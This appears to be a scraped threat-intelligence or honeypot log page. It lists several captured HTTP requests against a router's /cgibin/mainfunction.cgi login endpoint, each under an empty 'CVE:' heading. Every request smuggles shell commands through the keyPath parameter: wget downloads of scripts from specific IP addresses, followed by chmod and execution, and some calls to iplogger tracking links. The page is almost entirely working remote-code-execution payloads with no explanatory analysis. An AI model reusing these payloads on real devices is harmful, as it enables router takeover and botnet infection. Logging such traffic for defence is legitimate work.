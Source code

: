 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+https%3A%2F%2Fiplogger.org/2EULU5&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+https%3A%2F%2F2no.co/2EULU5&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F51.222.56.159%2Fsh+%3B+chmod+777+sh+%3B+sh+sh&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+https%3A%2F%2Fiplogger.org/2EULU5%2F&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F108.174.62.168%2FHilix.sh+%3B+chmod+777+Hilix.sh+%3B+sh+Hilix.sh&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F108.174.62.168%2Fsnype.sh+%3B+chmod+777+snype.sh+%3B+sh+snype.sh&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+http%3A%2F%2F136.144.41.3%2Fdaytreckcndjknckd%2Fohsitsvegawellrip.sh+%3B+chmod+777+ohsitsvegawellrip.sh+%3B+sh+ohsitsvegawellrip.sh%3Bwget+https%3A%2F%2Fiplogger.org%2F2FGVP5&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=cd%20/tmp;%20wget%20http://103.133.111.238/draytek%20-O%20.draytek;%20chmod%20+x%20.draytek;%20sh%20.draytek;%20rm%20-rf%20.draytek&loginUser=a&loginPwd=a
## CVE: # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=cd%20/tmp;%20wget%20http://103.133.111.238/anon%20-O%20.anon;%20chmod%20+x%20.anon;%20sh%20.anon;%20rm%20-rf%20.anon&loginUser=a&loginPwd=a
## CVE: 